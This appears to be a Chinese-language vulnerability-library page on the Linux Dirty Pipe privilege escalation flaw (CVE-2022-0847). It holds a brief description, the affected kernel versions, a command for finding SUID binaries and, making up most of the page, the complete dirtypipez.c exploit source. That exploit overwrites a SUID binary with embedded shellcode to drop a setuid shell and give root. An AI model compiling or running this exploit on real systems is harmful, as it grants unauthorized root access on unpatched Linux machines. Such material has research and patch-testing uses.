

Linux DirtyPipe 权限提升漏洞 CVE-2022-0847¶
漏洞描述¶
CVE-2022-0847 是存在于 Linux内核 5.8 及之后版本中的本地提权漏洞。攻击者通过利用此漏洞，可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。 CVE-2022-0847 的漏洞原理类似于 CVE-2016-5195 脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”
漏洞影响¶
Linux内核 5.8 及之后版本
漏洞复现¶
查找具有suid权限的可执行文件
find / -user root -perm /4000 2>/dev/null
编译POC文件后，指定修改的Suid可执行文件，获取root权限

漏洞POC¶
//
// dirtypipez.c
//
// hacked up Dirty Pipe (CVE-2022-0847) PoC that hijacks a SUID binary to spawn
// a root shell. (and attempts to restore the damaged binary as well)
//
// Wow, Dirty CoW reloaded!
//
// -- blasty <peter@haxx.in> // 2022-03-07
/* SPDX-License-Identifier: GPL-2.0 */
/*
* Copyright 2022 CM4all GmbH / IONOS SE
*
* author: Max Kellermann <max.kellermann@ionos.com>
*
* Proof-of-concept exploit for the Dirty Pipe
* vulnerability (CVE-2022-0847) caused by an uninitialized
* "pipe_buffer.flags" variable. It demonstrates how to overwrite any
* file contents in the page cache, even if the file is not permitted
* to be written, immutable or on a read-only mount.
*
* This exploit requires Linux 5.8 or later; the code path was made
* reachable by commit f6dd975583bd ("pipe: merge
* anon_pipe_buf*_ops"). The commit did not introduce the bug, it was
* there before, it just provided an easy way to exploit it.
*
* There are two major limitations of this exploit: the offset cannot
* be on a page boundary (it needs to write one byte before the offset
* to add a reference to this page to the pipe), and the write cannot
* cross a page boundary.
*
* Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
*
* Further explanation: https://dirtypipe.cm4all.com/
*/
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <stdint.h>
#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif
// small (linux x86_64) ELF file matroshka doll that does;
// fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
// write(fd, elfcode, elfcode_len)
// chmod("/tmp/sh", 04755)
// close(fd);
// exit(0);
//
// the dropped ELF simply does:
// setuid(0);
// setgid(0);
// execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
unsigned char elfcode[] = {
/*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
};
/**
* Create a pipe where all "bufs" on the pipe_inode_info ring have the
* PIPE_BUF_FLAG_CAN_MERGE flag set.
*/
static void prepare_pipe(int p[2])
{
if (pipe(p)) abort();
const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
static char buffer[4096];
/* fill the pipe completely; each pipe_buffer will now have
the PIPE_BUF_FLAG_CAN_MERGE flag */
for (unsigned r = pipe_size; r > 0;) {
unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
write(p[1], buffer, n);
r -= n;
}
/* drain the pipe, freeing all pipe_buffer instances (but
leaving the flags initialized) */
for (unsigned r = pipe_size; r > 0;) {
unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
read(p[0], buffer, n);
r -= n;
}
/* the pipe is now empty, and if somebody adds a new
pipe_buffer without initializing its "flags", the buffer
will be mergeable */
}
int hax(char *filename, long offset, uint8_t *data, size_t len) {
/* open the input file and validate the specified offset */
const int fd = open(filename, O_RDONLY); // yes, read-only! :-)
if (fd < 0) {
perror("open failed");
return -1;
}
struct stat st;
if (fstat(fd, &st)) {
perror("stat failed");
return -1;
}
/* create the pipe with all flags initialized with
PIPE_BUF_FLAG_CAN_MERGE */
int p[2];
prepare_pipe(p);
/* splice one byte from before the specified offset into the
pipe; this will add a reference to the page cache, but
since copy_page_to_iter_pipe() does not initialize the
"flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
--offset;
ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
if (nbytes < 0) {
perror("splice failed");
return -1;
}
if (nbytes == 0) {
fprintf(stderr, "short splice\n");
return -1;
}
/* the following write will not create a new pipe_buffer, but
will instead write into the page cache, because of the
PIPE_BUF_FLAG_CAN_MERGE flag */
nbytes = write(p[1], data, len);
if (nbytes < 0) {
perror("write failed");
return -1;
}
if ((size_t)nbytes < len) {
fprintf(stderr, "short write\n");
return -1;
}
close(fd);
return 0;
}
int main(int argc, char **argv) {
if (argc != 2) {
fprintf(stderr, "Usage: %s SUID\n", argv[0]);
return EXIT_FAILURE;
}
char *path = argv[1];
uint8_t *data = elfcode;
int fd = open(path, O_RDONLY);
uint8_t *orig_bytes = malloc(sizeof(elfcode));
lseek(fd, 1, SEEK_SET);
read(fd, orig_bytes, sizeof(elfcode));
close(fd);
printf("[+] hijacking suid binary..\n");
if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {
printf("[~] failed\n");
return EXIT_FAILURE;
}
printf("[+] dropping suid shell..\n");
system(path);
printf("[+] restoring suid binary..\n");
if (hax(path, 1, orig_bytes, sizeof(elfcode)) != 0) {
printf("[~] failed\n");
return EXIT_FAILURE;
}
printf("[+] popping root shell.. (dont forget to clean up /tmp/sh ;))\n");
system("/tmp/sh");
return EXIT_SUCCESS;
}